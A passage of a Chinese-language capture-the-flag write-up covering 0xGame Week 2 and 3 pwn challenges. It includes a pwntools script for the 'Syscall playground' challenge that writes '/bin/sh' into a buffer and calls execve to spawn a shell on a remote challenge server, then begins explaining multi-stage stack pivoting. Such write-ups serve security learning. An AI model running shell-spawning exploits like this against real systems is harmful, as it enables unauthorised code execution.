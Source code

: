 #### [Week 2] SROP

这题之后会放在SROP栏目里讲解

#### [Week 2] Syscall playground

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-21-1024x684.png" alt="img" style="zoom: 67%;" />

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-22-1024x677.png" alt="img" style="zoom:67%;" />

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-23-1024x256.png" alt="img" style="zoom:67%;" />

如上图，直接把/bin/sh\x00写入buffer然后执行execve(buf_addr,0,0)即可

```
from pwn import *
#io = process('./syscall')
io = remote('47.97.58.52',42010)
context(os = 'linux',arch = 'amd64',log_level = 'debug')

io.sendlineafter(b'choice: ',b'1')
io.recvuntil(b' located at ')
addr = int(io.recvuntil(b'\n',drop = True).decode(),16)
print(addr)
io.sendlineafter(b'Input your data: ',b'/bin/sh\x00')

io.sendlineafter(b'choice: ',b'3')
io.sendlineafter(b'call: ',b'59')
io.sendlineafter(b'Input the arguments count: ',b'3')
io.sendlineafter(b'Input the argument 0:',str(addr).encode())
io.sendlineafter(b'Input the argument 1:',b'0')
io.sendlineafter(b'Input the argument 2:',b'0')
io.interactive()                
```

总结：其实week2还是很简单的，但也确实有些很难见到的题型

# 0xgame week3

week3真的上难度了，看一上午有头绪的俩题进度都不快，还有一个题是关于非栈上格式化字符串的，太复杂了我甚至都不想看

#### [Week 3] where_is_my_stack

让我想到了moe的travel of stack那题。所以临时翻了一下moe的题解，终于搞明白了,这题是关于多次栈迁移的。

什么是多次栈迁移，如何多次栈迁移呢？我们需要利用read函数的汇编代码来分析：
***多次栈迁移一般用于需要泄露libc地址或者只有一次输入的时候\***

![logo](../images/17.png)
